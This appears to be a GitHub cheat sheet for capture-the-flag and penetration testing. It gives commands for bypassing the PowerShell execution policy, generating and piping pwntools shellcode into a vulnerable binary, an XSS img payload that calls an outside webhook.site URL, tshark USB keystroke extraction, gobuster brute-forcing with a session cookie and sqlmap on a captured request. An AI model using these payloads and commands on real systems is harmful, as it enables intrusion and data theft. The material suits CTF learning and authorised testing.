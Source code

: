 ### Powershell
* To bypass execution policy `powershell.exe -exec bypass`

### BufferOverflow
* To generate shellcode quickly, we can use..
  * `python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh))`
  * `(python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh()))" ;cat) | ./vuln`
 
### XSS Attack
* If there is a website, with a text field to submit, we can try XSS Attack.
  * Use any online HTTP Bin website like https://webhook.site/#!/
  * ``` ""> <img src="https://webhook.site/19df1f1a-2ec8-453e-b85b-ed2cab66a5cc>"```
  
### Packet Capture
* If usb keys are mapped with pcap, we can use this Article to extract usb keys entered: [Link](https://medium.com/@ali.bawazeeer/kaizen-ctf-2018-reverse-engineer-usb-keystrok-from-pcap-file-2412351679f4)
  * Example Command : `tskark.exe -r <FILE_NAME.pcapng> -Y "usb.transfer_types==1" -e "frame.time.epoch" -e "usb.capdata" -Tfields`

### Gobuster with Cookie (Useful to directory traversal when cookie is needed )
```root@kali:# gobuster dir -u http://<IP_ADDRESS> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -c PHPSESSID=<COOKIE_VALUE>
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://<IP_ADDRESS>
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] Cookies:        <COOKIE_VALUE>
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/04/19 01:43:01 Starting gobuster
===============================================================
/home.php (Status: 302)
/index.php (Status: 200)
```

### SQL MAP Usage
Redirect the HTTP Request to Burpsuite and we can see the request like this.
```
POST / HTTP/1.1
Host: 10.10.10.162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.162/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Connection: close
Upgrade-Insecure-Requests: 1

search=help
```
Now Right click and click on `copy to file` option.
```
root@kali:/SqlMap# sqlmap -r search.req --batch --force-ssl
```